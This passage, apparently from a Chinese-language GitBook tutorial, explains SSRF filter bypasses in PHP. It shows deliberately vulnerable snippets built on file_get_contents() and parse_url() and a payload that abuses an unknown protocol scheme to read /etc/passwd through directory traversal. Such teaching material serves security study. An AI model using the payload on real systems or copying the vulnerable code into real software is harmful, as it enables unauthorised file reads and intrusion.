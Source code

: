 <figure><img src="../../.gitbook/assets/SSRF2.png" alt=""><figcaption></figcaption></figure>

### 5. 利用不存在的协议绕过指定协议头

`file_get_contents()`函数的一个特性，即当PHP的`file_get_contents()`函数在遇到不认识的协议头时候会将这个协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件。（include()函数也有类似的特性）

```php
// ssrf.php
<?php
highlight_file(__FILE__);
if(!preg_match('/^https/is',$_GET['url'])){
die("no hack");
}
echo file_get_contents($_GET['url']);
?>
// 这里只显示了 https 开头的路径
    
ssrf.php?url=httpsssss://../../../../../../etc/passwd
```

### 6. URL 解析问题

> 该思路来自Orange Tsai成员在2017 BlackHat 美国黑客大会上做的题为[《A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages》](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)的分享。主要是利用readfile和parse\_url函数的解析差异以及curl和parse\_url解析差异来进行绕过。

#### 1. **利用readfile和parse\_url函数的解析差异绕过指定的端口**

```php
// ssrf.php
<?php
$url = 'http://'. $_GET[url];
$parsed = parse_url($url);
if( $parsed[port] == 80 ){  // 这里限制了我们传过去的url只能是80端口的
	readfile($url);
} else {
	die('Hacker!');
}
```

